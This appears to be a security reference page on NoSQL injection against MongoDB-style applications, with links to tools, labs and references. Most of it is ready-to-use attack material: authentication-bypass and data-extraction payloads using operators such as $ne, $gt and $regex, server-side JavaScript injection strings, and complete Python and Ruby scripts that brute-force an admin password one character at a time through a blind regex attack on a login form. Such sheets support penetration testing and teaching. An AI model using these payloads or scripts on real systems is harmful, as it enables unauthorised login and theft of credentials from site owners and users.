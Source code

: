 # NoSQL injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Exploit](#exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [POST with urlencoded body](#post-with-urlencoded-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)
* [nosqlilab - A lab for playing with NoSQL Injection](https://github.com/digininja/nosqlilab)
* [Burp-NoSQLiScanner - Plugin available in burpsuite](https://github.com/matrix/Burp-NoSQLiScanner)  

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### SSJI 

```json
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## Blind NoSQL

### POST with JSON body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### POST with urlencoded body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

ruby script:

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```

## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP/WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
* [NoSQL injection wordlists - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [NoSQL Injection in MongoDB - JUL 17, 2016 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
* [Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
